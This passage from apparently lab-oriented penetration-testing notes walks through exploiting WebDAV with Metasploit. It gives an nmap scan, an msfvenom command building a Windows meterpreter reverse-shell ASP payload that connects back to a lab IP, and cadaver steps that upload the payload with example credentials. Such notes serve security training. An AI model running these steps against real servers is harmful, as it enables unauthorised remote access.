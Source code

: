 - Print out file contents
```
type C:\flag.txt
```

### Exploiting WebDav With Metasploit
We're trying to get a meterpreter session(reverse shell) on the target using Metasploit

1. Perform an initial `nmap` scan to check if Webdav is available on the target using the `http-enum` nmap script:
```
nmap -sV -p80 --script=http-enum <target>
```

#### Generating payload using MSFVenom

MSFVenom is used for generating payloads for reverse shells or remote access. We'll generate a reverse_tcp asp payload here. The cmd for msfvenom will need to pick the `-p` payload option, set the `LHOST`/`LPORT` to the IP & local port where the payload will connect back to, the payload's file type `-f` and its name. The payload should be stored in the home directory:

Syntax:
```
msfvenom -p payload LHOST=atk_machine LPORT=l_port -f file_type > file_name
```

Example:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.15.12.2 LPORT=1234 -f asp > shell.asp
```

**Note**: If you're not familiar with the target's architecture for `windows/meterpreter/reverse_tcp`, it's recommended to use the x86(32-bit) architecture since it would work for with 32-bit or 64-bit.

##### Upload the Msfvenom Payload using Cadaver

We'll use Cadaver to upload the payload, enter the webdav location on the target and enter the credentials(if needed):
```
cadaver <target_location>
```

Example:
```
cadaver http://10.16.25.85/webdav/
```

```
Username: user
Password: rando_pass
```

You be given the a psuedo shell to interact with the server | `dav:/directory/>`

Here, we'll upload the payload made by msfvenom using a `PUT` command:
```
dav:/<webdav_directory/> put payload
```
